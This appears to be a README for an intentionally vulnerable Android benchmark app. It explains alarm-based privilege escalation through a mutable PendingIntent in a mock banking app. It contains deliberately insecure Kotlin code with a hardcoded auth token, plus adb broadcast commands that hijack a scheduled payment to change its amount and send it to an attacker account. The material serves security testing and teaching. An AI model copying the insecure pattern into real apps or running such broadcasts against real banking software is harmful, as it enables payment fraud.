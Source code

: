 # oxo-android-ben39: Alarm-based Privilege Escalation

## Vulnerability Overview

Alarm-based Privilege Escalation occurs when Android applications use AlarmManager with PendingIntents that contain elevated privileges or sensitive operations, allowing malicious apps to trigger these privileged actions by manipulating the pending intents. This vulnerability is particularly dangerous in financial applications where scheduled payments or transfers can be hijacked and modified.

## Attack Vector: Payment Schedule Manipulation

**Brief Explanation**: Exploitation of mutable PendingIntents in AlarmManager to intercept and modify scheduled payment operations, allowing attackers to change payment amounts, recipients, and other sensitive financial data.

**Key Characteristics:**
- AlarmManager schedules tasks with mutable PendingIntents
- PendingIntents trigger privileged operations (payments, transfers, etc.)
- Missing FLAG_IMMUTABLE allows intent tampering before alarm fires
- Can execute high-privilege operations on behalf of the victim app

**Vulnerable Code Pattern:**
```kotlin
val alarmIntent = Intent("com.bankingapp.PROCESS_PAYMENT")
alarmIntent.putExtra("amount", "100.00")
alarmIntent.putExtra("account_id", "ACC_12345")
alarmIntent.putExtra("recipient", "trusted_recipient")
alarmIntent.putExtra("auth_token", "banking_jwt_token_xyz789")

// VULNERABLE: Mutable PendingIntent for sensitive operation
val alarmPendingIntent = PendingIntent.getBroadcast(
    this, PAYMENT_REQUEST_CODE, alarmIntent,
    PendingIntent.FLAG_CANCEL_CURRENT  // Missing FLAG_IMMUTABLE!
)

// Schedule payment processing
val alarmManager = getSystemService(Context.ALARM_SERVICE) as AlarmManager
alarmManager.setExact(
    AlarmManager.RTC_WAKEUP,
    System.currentTimeMillis() + 30000,  // 30 seconds delay
    alarmPendingIntent
)
```

## Testing

```bash
# Launch SecureBank Pro app
adb shell am start -n co.ostorlab.myapplication/.MainActivity

# Trigger payment scheduling (tap schedule payment button)
adb shell input tap 960 120

# Hijack scheduled payment intent to change amount and recipient
adb shell am broadcast -a com.bankingapp.PROCESS_PAYMENT \
  --es amount "10000.00" \
  --es account_id "ACC_12345" \
  --es recipient "ATTACKER_ACCOUNT" \
  --es auth_token "STOLEN_TOKEN_XYZ789"

# Alternative: Modify payment parameters
adb shell am broadcast -a com.bankingapp.PROCESS_PAYMENT \
  --es amount "9999.99" \
  --es recipient "malicious_recipient" \
  --es transaction_type "unauthorized_transfer"

# Monitor alarm broadcasts
adb shell dumpsys alarm | grep -A 10 -B 10 "bankingapp"

# Check scheduled payments
adb shell dumpsys activity broadcasts | grep -A 5 -B 5 "PROCESS_PAYMENT"
```

**Difficulty**: Medium-High

## Impact Assessment

- **Confidentiality**: High - Can extract sensitive payment tokens and account details
- **Integrity**: High - Can modify payment amounts, recipients, and transaction parameters
- **Availability**: Medium - Can disrupt scheduled payment operations
- **OWASP Mobile Top 10**: M6 - Insecure Authorization, M2 - Insecure Data Storage
- **CWE**: CWE-926 (Improper Export of Android Application Components), CWE-863 (Incorrect Authorization)